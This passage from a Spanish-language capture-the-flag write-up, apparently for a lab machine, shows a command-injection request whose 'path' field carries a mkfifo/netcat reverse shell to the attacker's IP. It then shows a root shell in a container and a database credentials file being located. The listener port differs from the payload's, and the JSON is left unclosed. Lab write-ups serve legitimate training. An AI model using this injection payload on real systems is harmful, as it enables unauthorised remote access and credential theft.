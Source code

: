 Así que cambiaremos la petición para obtener la reverse shell 

```json
{
    "body":"l4nder",
    "path":"/etc/passwd;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.48 443 >/tmp/f;
}
```

Mandamos la petición, y obtenemos la reverse shell, pero nos damos cuenta de que estamos en un contenedor

```shell
❯ nc -nvlp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.193.
Ncat: Connection from 10.10.11.193:41189.
sh: can't access tty; job control turned off
/app # ls
Dockerfile
app
requirements.txt
/app # pwd
/app
/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Dentro del directorio `/app/app`, encontramos el archivo `db.py`, cuyo archivo tiene credenciales para una base de datos `PostgreSQL

```shell
/app # pwd
/app
/app # ls -al
total 32
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 .
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 ..
-rw-r--r--    1 root     root          1024 Jun 12 10:21 .Dockerfile.swp
-rw-r--r--    1 root     root           522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 app
-rw-r--r--    1 root     root           672 Jun  4  2022 requirements.txt
/app # cd app
/app/app # ls -al
total 40
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 .
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 ..
-rw-r--r--    1 root     root             0 Jun  4  2022 __init__.py
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 __pycache__
drwxr-xr-x    1 root     root          4096 Nov 10 16:00 api
-rw-r--r--    1 root     root             0 Jun  4  2022 config.py
-rw-r--r--    1 root     root          1001 Jun  7  2022 db.py
-rw-r--r--    1 root     root          1149 Jun  4  2022 main.py
-rw-r--r--    1 root     root           704 Jun  4  2022 requirements.txt
```
